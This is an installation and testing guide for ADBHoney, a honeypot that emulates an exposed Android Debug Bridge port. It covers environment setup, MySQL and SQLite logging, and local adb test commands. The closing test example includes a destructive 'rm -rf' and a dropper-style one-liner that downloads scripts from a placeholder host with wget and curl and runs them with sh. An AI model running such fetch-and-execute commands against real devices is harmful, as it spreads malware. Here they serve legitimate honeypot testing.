 # Installation guide (on Ubuntu 16.04): 

1) (Optional) Create user *adbh*  (not root user) and switch to it   
``` $ sudo su - adbh ```   
2) Create virtual envirionment (Python 2.7.\*) with name *adbh_env*    
``` $ virtualenv --python=python2 adbh_env ```   
``` $ cd adbh_env/ ```   
3) Activate the envirionment   
``` $ source ./bin/activate ```  
``` $ cd .. ```    
4) Create folder *adbh_project* inside *adbh_env*   
``` $ mkdir adbh_project ```   
``` $ cd adbh_project/ ```   
5) Clone the project from the repository   
``` $ git https://github.com/venetay/ADBHoney.git . ```   
6) Install requitements   
	(Dependance: sudo apt-get install libmysqlclient-dev python-dev)
``` $ pip install -r requirements.txt ```   
7) Start
``` $ python adbhoney.py ``` 

============================================================

## MySQL Configuration 

First create an empty database named 'adbhoney'.
```
$ mysql -u root -p
CREATE DATABASE adbhoney;
```

Create a adbhoney user account for the database and grant access privileges:

**All Privileges:**

```
GRANT ALL ON adbhoney.* TO 'adbhoney'@'localhost' IDENTIFIED BY 'PASSWORD HERE';

```

**Restricted Privileges:**

Alternatively you can grant the adbhoney account with less privileges. The following command grants the account with the
bare minimum required for the output logging to function:

```
GRANT INSERT, SELECT, UPDATE ON adbhoney.* TO 'adbhoney'@'localhost' IDENTIFIED BY 'PASSWORD HERE';
```

Apply the privilege settings and exit mysql.
```
FLUSH PRIVILEGES;
exit
```

Next, log into the MySQL database using the adbhoney account to verify proper access privileges and load the database schema provided in the docs/sql/ directory:
```
$ cd adbhoney/docs/sql/
$ mysql -u adbhoney -p
USE adbhoney;
source mysql.sql;
exit
```

# MySQL plugin uses geolocation. 
1) Download GeoLite2-ASN.mmdb and GeoLite2-City.mmdb   
``` https://dev.maxmind.com/geoip/geoip2/geolite2/ ```   
2) Set the right location of the databases used for geolocation in the config file 
 

==================================================


## SQLite3 logging module

Logging to SQLite3 database. To init the database, use the script
docs/sql/sqlite3.sql:
     sqlite3 <db_file> < docs/sql/sqlite3.sql


===================================================
# Start and test example 

// test adb commands 

```
sudo apt install adb 
// sudo apt install android-tools-adb
```

---------------------------------------------------------------------

terminal1:   
``` .../ADBHoney$ python adbhoney.py ```

--------------------------------------------------------------------- 

terminal2:   
``` $ nmap 127.0.0.1 ```

```
$ adb connect 127.0.0.1
$ adb connect 127.0.0.1:5555  
//* daemon not running. starting it now on port 5037 *
//* daemon started successfully *
//connected to 127.0.0.1:5555
```

```
$ adb devices
//List of devices attached 
//emulator-5554	device
//127.0.0.1:5555	device
```

```
$ adb -s 127.0.0.1:5555  push -p filename /sdcard/
//Transferring: 5078064/5078064 (100%)
//4805 KB/s (5078064 bytes in 1.031s)
```

``` $ adb -s 127.0.0.1:5555 shell ```

``` $ adb -s 127.0.0.1:5555 shell "rm -rf /data/local/tmp/*" ```

```
$ adb -s 127.0.0.1:5555 shell "cd /data/local/tmp;wget http://yyy.yyy.yyy.yyy/br -O- >br;sh br;busybox wget http://yyy.yyy.yyy.yyy/r -O- >r;sh r;curl http://yyy.yyy.yyy.yyy/c >c;sh c;busybox curl http://yyy.yyy.yyy.yyy/bc >bc;sh bc"
```
